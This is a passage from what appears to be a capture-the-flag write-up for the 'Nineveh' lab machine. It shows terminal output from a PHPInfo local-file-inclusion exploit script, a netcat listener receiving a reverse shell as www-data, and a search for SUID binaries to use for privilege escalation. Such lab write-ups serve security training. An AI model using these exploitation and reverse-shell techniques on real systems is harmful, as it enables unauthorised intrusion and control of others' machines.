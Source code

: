 ```
└─$ python phpinfolfi.py 10.10.10.43 80 100
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 125164
Spawning worker pool (100)...
 286 /  1000^C
```

```
└─$ nc -nvlp 1111             
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.10.43.
Ncat: Connection from 10.10.10.43:34892.
bash: cannot set terminal process group (1372): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@nineveh:/var/www/html/department$ 
```

## Enumeration as "amrois"

Let's se there are any binaries with the SUID bit set:

```
amrois@nineveh:~$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/at
/bin/ping6
/bin/ping
/bin/mount
/bin/umount
/bin/ntfs-3g
/bin/su
/bin/fusermount
amrois@nineveh:~$ 
```
